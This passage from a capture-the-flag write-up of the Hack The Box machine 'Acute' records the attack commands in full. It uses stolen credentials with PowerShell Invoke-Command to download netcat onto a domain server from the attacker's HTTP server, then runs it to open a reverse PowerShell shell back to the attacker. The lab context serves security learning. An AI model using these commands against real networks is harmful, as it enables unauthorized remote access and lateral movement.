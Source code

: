 ```shell
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

Therefore, the JEA is gone and we can use any PowerShell commands we want, like `Invoke-WebRequest`.

**Let's transfer netcat executable to the Domain Controller, and get a reverse shell:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:16:56(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe      
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:16:59(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Transfer netcat to `ATSSERVER`:

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { Invoke-WebRequest -Uri http://10.10.14.19/nc.exe -OutFile C:\Windows\Temp\nc.exe }
```

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:18:00(HKT)]
└> rlwrap -cAr nc -lvnp 4445
listening on [any] 4445 ...
```

- Send the netcat reverse shell payload:

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ScriptBlock { C:\Windows\Temp\nc.exe -nv 10.10.14.19 4445 -e powershell.exe }
```

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|18:18:00(HKT)]
└> rlwrap -cAr nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 51496
[...]
PS C:\Users\awallace\Documents> whoami; ipconfig /all
acute\awallace

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ATSSERVER
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
```